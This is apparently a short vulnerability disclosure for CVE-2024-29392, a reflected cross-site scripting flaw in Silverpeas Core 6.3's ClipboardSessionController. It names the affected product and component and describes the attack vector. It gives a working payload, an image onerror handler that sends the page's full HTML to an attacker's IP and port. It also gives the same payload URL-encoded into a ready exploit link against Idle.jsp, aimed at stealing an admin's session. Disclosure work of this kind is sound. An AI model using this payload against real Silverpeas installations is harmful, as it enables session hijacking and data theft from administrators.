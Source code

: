 # CVE-2024-29392 XSS bypass CSP

Silverpeas Core 6.3 (https://github.com/Silverpeas/Silverpeas-Core) is vulnerable to Cross Site Scripting (XSS) via ClipboardSessionController.

[Vulnerability Type]
Cross Site Scripting (XSS)

[Vendor of Product]
Silverpeas

[Affected Product Code Base]
Silverpeas Core - 6.3.*

[Affected Component]
ClipboardSessionController

[Attack Vectors]
Reflect XSS in GET request would allow a non-authenticator attacker can send a request to admin. When click, attacker can obtain sessionID, this will also bypass the CSP

Payload: <img src=x onerror="this.src='http://192.168.0.204:8888/?'+document.documentElement.outerHTML; this.removeAttribute('onerror');"

http://{LINK}/silverpeas/Rclipboard/jsp/Idle.jsp?%3c%69%6d%67%20%73%72%63%3d%78%20%6f%6e%65%72%72%6f%72%3d%22%74%68%69%73%2e%73%72%63%3d%27%68%74%74%70%3a%2f%2f%31%39%32%2e%31%36%38%2e%30%2e%32%30%34%3a%38%38%38%38%2f%3f%27%2b%64%6f%63%75%6d%65%6e%74%2e%64%6f%63%75%6d%65%6e%74%45%6c%65%6d%65%6e%74%2e%6f%75%74%65%72%48%54%4d%4c%3b%20%74%68%69%73%2e%72%65%6d%6f%76%65%41%74%74%72%69%62%75%74%65%28%27%6f%6e%65%72%72%6f%72%27%29%3b%22%3e=aE


[Reference]
https://phulelouch.github.io/


[Discoverer]
phulelouch (Harvey Spec)

[Video PoC]
https://drive.google.com/file/d/1QQKhURt-RjgnneILSTyPwhrs_wfSK5UI/view?usp=sharing

